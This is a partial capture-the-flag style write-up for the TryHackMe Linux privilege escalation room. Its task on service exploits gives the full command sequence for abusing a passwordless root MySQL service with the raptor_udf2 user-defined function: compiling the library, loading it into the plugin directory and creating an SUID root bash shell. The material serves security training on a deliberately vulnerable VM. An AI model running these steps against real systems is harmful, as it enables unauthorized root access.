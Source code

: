 # Linux PrivEsc Writeup

Hatami Ra'is Bukhari (Althemier)

**Work-in-Progress**

[Linux PrivEsc Room](https://tryhackme.com/room/linuxprivesc)

# [Task 1] Deploy the VUlnerable Debian VM

`user:password321`

## 1. Deploy the machine and login to the "user" account using SSH.

```
ssh user@TARGET_IP
```

Password = `password321`

## 2. Run the "id" command. What is the result?

```
id
```

Output
```
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

# [Task 2] Service Exploits


> **NOTE**

> This part is copy-paste from the room it self


The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

```
cd /home/user/tools/mysql-udf
```

Compile the raptor_udf2.c exploit code using the following commands:

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as the root user with a blank password:

```
mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```
/tmp/rootbash -p
```

**Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!**

```
rm /tmp/rootbash
exit
```


